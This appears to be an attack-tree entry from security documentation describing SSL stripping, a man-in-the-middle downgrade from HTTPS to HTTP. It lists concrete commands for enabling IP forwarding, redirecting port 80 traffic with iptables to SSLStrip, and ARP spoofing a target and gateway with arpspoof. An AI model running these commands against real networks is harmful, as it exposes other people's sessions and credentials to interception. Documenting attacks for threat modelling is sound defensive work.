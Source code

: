 SSL stripping downgrades a HTTPS connection to HTTP by intercepting the TLS authentication sent from the application to the user. The adversary sends an unencrypted version of the application’s site to the user while maintaining the secured session with the application. The user’s session is visible to the adversary.

## Attack

    1 Strip SSL (AND)

        1.1 Install SSLStrip (AND)

        1.2 Configure attack machine for IP forwarding (echo 1 > /proc/sys/net/ipv4/ip_forward or sysctl -w net.ipv4.ip_forward=1) (AND)

        1.3 Route all HTTP traffic to SSLStrip (iptables –t nat –A PREROUTING -i eth0 –p tcp –dport 80 –j REDIRECT –to-port 54321) (AND)

        1.4 Run SSLStrip (sslstrip –l 54321)

    2 Spoof ARP (AND)

        2.1 Install arpspoof (AND)

        2.2 Configure ARP spoofing (arpspoof –i eth0 –t <targetIP> <gatewayIP>)

    3 Sniff traffic 
